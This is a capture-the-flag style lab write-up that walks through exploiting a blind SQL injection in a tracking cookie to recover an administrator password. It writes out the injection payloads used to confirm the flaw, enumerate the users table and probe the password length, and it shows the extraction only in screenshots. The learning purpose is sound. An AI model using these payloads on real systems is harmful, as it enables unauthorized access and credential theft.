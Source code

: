 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


![image](https://github.com/udayk01/Web-Security/assets/52235763/5de5e333-5dfb-4b8a-a348-460f152ba18e)

> Using Burp Suite to intercept and modify the request containing the TrackingId cookie.

> After which we modify the TrackingId cookie as follows and checks whether the Welcome Back message appears as response 

>> TrackingId=(as it is)' AND '1'='1

![image](https://github.com/udayk01/Web-Security/assets/52235763/59627de4-f093-480c-ba4e-2f361b9a0315)

> After which we modify the TrackingId as follows 

>> TrackingId=(as it is)' AND '1'='2 

> Verifying that the "Welcome back" message does not appear in the response.

![image](https://github.com/udayk01/Web-Security/assets/52235763/033a8af7-2320-4576-8b59-028cd283e40e)

> Now changing it to 

>> TrackingId=(as it is)' AND (SELECT 'a' FROM users LIMIT 1)='a 

> We can Verify that the condition is true, confirming that there is a table called users.

![image](https://github.com/udayk01/Web-Security/assets/52235763/00e63f8b-754c-43b0-8384-bca78ce93828)

>> TrackingId=(as it is)' AND (SELECT 'a' FROM users WHERE username='administrator')='a

> We can verify that the condition is true, confirming that there is a user called administrator.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f7fb94b3-c389-4cd2-9416-6bbf0339b37b)

> To determine how many characters are in the password of the administrator user. To do this, change the value to

>> TrackingId=(as it is)' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

> This condition should be true, confirming that the password is greater than 1 character in length.

![image](https://github.com/udayk01/Web-Security/assets/52235763/ff59eeb3-90ed-459c-a15b-e2ab8fcf40c2)

> Now change the value to 25

>> TrackingId=(as it is)' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>25)='a

> This condition should be false, confirming that the password is less than 25 character in length.

> So it is clear that password length is under 25 character lengths.

![image](https://github.com/udayk01/Web-Security/assets/52235763/cd3809bd-1d90-4aae-9e22-cb8f7684fa3c)

> Now we start the attack. Send the Get request to Intruder and change the payloads as follows according to our need. 

![image](https://github.com/udayk01/Web-Security/assets/52235763/71ca2878-5445-478e-96c1-7122f904a797)

![image](https://github.com/udayk01/Web-Security/assets/52235763/4e8f0374-7226-40dd-b954-e3c0abcd96e4)

![image](https://github.com/udayk01/Web-Security/assets/52235763/858cff1d-3bf6-4c32-bffe-d8867314abdd)

![image](https://github.com/udayk01/Web-Security/assets/52235763/4c7ebeb4-a9b9-4347-9726-ca2a401abd72)

![image](https://github.com/udayk01/Web-Security/assets/52235763/54c7831e-e41f-461e-a1c7-b2150ddfc7c8)

![image](https://github.com/udayk01/Web-Security/assets/52235763/399aa9f5-4259-46d2-8997-a1487c8d4655)

![image](https://github.com/udayk01/Web-Security/assets/52235763/f99557f3-2027-4516-8fa9-71a8b32525ba)

![image](https://github.com/udayk01/Web-Security/assets/52235763/77282967-da77-4c92-b112-c98a50cf2539)

![image](https://github.com/udayk01/Web-Security/assets/52235763/86fd8b0c-73c7-4f97-92a4-cd9cd708fe3f)

![image](https://github.com/udayk01/Web-Security/assets/52235763/7d70973b-6ad8-4942-a21c-cb8f42696410)

![image](https://github.com/udayk01/Web-Security/assets/52235763/3fe68fe8-82f0-4729-83fb-43941bf06dfb)

![image](https://github.com/udayk01/Web-Security/assets/52235763/e3cc8568-854e-4d64-b21f-33694bac85ab)

> Login with the username administrator and password 0z426qu7ic262y0zdjrm which we retrieved after the attack.

![image](https://github.com/udayk01/Web-Security/assets/52235763/d902a2ae-56d3-4139-942b-ee451887a0e3)











